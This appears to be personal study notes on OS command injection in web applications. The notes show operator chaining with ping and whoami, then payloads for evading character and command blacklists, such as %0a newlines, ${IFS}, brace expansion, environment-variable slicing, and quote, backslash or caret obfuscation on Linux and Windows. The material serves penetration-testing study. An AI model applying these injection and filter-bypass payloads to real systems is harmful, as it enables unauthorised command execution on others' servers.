 ![[Pasted image 20250415174021.png]]
![[Pasted image 20250415174756.png]]

**AND (&&) Operator** - `ping -c 1 127.0.0.1 && whoami` : This will execute both the commands.
**OR (||) Operator** - `ping -c 1 127.0.0.1 || whoami` : This runs second command only if the first commands fail to execute
![[Pasted image 20250416101227.png]]

**Check for Blacklisted Characters :**  A web application may have a list of blacklisted characters, and if the command contains them, it would deny the request. 

## Bypassing Blacklisted Characters
- Spaces - `127.0.0.1%0a whoami
- Use Tabs - `127.0.0.1%0a%09`
- Use IFS - `127.0.0.1%0a${IFS}`
- Using Brace Expansions - `127.0.0.1%0a{ls,-la}`
- `LINUX` If `/` is blacklisted then we can use something like - `${PATH:0:1}`, this prints the same output
-  `LINUX` If `;` is blacklisted then we can use something like - `${LS_COLORS:10:1}`
- `WINDOWS` If `/` is blacklisted then we can use something like - `echo %HOMEPATH:~6,-11%`

## Bypassing Blacklisted Commands
- If a command like `whoami` is blacklisted, then for `BASH` or `POWERSHELL` we can use - `w'h'o'am'i`
- If a command like `whoami` is blacklisted and it's confirmed that it is `LINUX BASH`, then we can use- `who$@ami`  or  `w\ho\am\i`
- If a command like `whoami` is blacklisted and it's confirmed that it is `WINDOWS`, then we can use - `who^ami`

